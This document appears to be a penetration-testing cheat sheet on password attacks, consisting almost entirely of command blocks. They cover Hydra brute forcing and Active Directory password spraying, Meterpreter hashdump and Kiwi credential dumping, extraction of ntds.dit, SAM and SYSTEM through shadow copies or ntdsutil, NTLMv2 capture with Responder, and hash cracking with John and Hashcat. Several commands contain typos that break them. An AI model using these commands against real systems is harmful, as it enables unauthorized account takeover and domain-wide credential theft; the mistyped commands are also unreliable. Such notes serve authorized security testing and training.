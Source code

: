 # Password Attacks
## Password Guessing
### HYDRA
```bash
hydra -l bgreen -P /opt/passwords/rockyou.txt 10.10.10.10 ssh
```
#### Single User, Multiple Passwords, Targeting SSH on port 2222
```bash
hydra -l root -P passwords.txt ssh://1.2.3.4:2222
```
#### Multiple Users, Single Passwords, Targeting SMB on default port
```bash
hydra -L users.txt -p password1 dc.target.local smb2
```
#### Single User, Single Password, Targeting Multiple Tagets Across the Network
```bash
hydra -l bberner -p P@ssword1! -M windows-hosts.txt smb2
```
#### Previously Compromised Users Accross the network
```bash
hydra -C creds.txt -M windows-hosts.txt smb2
```
#### Guessing Domain user passwords using hte domain controller
```bash
hydra -C creds.txt dc01.hitbox.com smb2 -m workgroup:{hitbox}
```

## AD Password Spraying an AD Environment
```bash
GetADUsers.py hitbox.com/bgreen:Password1 -dc-ip 10.10.10.55 -all | tee /tmp/ADUsers.txt
```
```bash
hydra -L /tmp/ADUsers.txt -p Password1 -m workgroup.{hitbox} 10.10.10.55 smb2
```

## Credential Stealing
### Meterpreter
#### Smart Hashdump
```bash
run post/windows/gather/smart_hashdump
```
#### Hashdump
```bash
run post/windows/gather/hashdump
```
#### Kiwi
```meterpreter
ps -A x64 -s
```
```meterpreter
migrate PID_of_SpoolSV
```
```meterpreter
load kiwi
```
```meterpreter
creds all
```
### ntds.dit
#### VSSOwn
```cmd
cscript vssown.vbs /status
cscript vssown.vbs /start
cscript vssown.vbs /create /c
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\ntds\ntds.dit ntdsbackup.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SYSTEM systembackup.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SAM sambackup.bak
cscript vssown.cbs /stop
```
#### NTDSUtil
```cmd
ntdsutil
activate instance ntds
ifm
create full C:\mybackup
quit
quit
```
```cmd
ntdsutil "ac in ntds" "ifm" "cr fu C:\mybackup" q q
```

## John The Ripper
### Cracking Windows LM Hashes
```bash
john ~/lans/web01.hashes --show
```
### Cracking Windows NT Hashes
```bash
john --format=nt ~/labs01.hashes
```
### Cracking Windows NT Hashes w/ LoopBack
```bash
john --format=nt --loopback ~/labs01.hashes
```
### Cracking WIndows NT hashes w/ Wordlist
```bash
john --format=nt --worldlist=/opt/passwords/rockyou.txt ~/labs/web01.hashes
```
### Cracking Linux Hashes
```bash
john ~/labs/web10.shadow --wordlist=/opt/passwords/rockyou.txt
```

## Hashcat
### Cracking Windows NT Hashes
```bash
hashcat -w 3 -a 0 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt
```
### Cracking Windows NT Hashes with rules
```bash
hashcat -w 3 -a 0 -, 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt -e /usr/local/share/doc/hashcat/rules/best64.rule
```

### Cracking Windows NT Hashes with Masks
```bash
hashcat -w3 -a 6 -m 1000 ~/labs.web01.hashes /opt/passwords/rockyou.txt ?d?s
```
### View Cracked Passwords
```bash
hashat -m 1000 --username --show --outfile-format 2 ~/labs/web01.hashes
```
### Crack Linux Password SHA512Crypt
```bash
hashcat -w 3 -a 0 -m 1800 ~/labs/web10.shadow /opt/passwords/rockyou.txt 0r /user/local/share/doc/hashcat/rules/best64.rule
```
### Crack NTLM Hashes
#### Set Up Responder
```bash
responder.py -I eth0
```
#### pcredz
```bash
python3 ./pcredz -f /tmpwinauth.pcap
```
#### Hashcat on NTLMv2 Hashes
```bash
hashcat -w 3 -a 0 -m 5600 /opt/pcredz/logs/NTLMv2.txt /opt/passwords/rockyou.txt 
```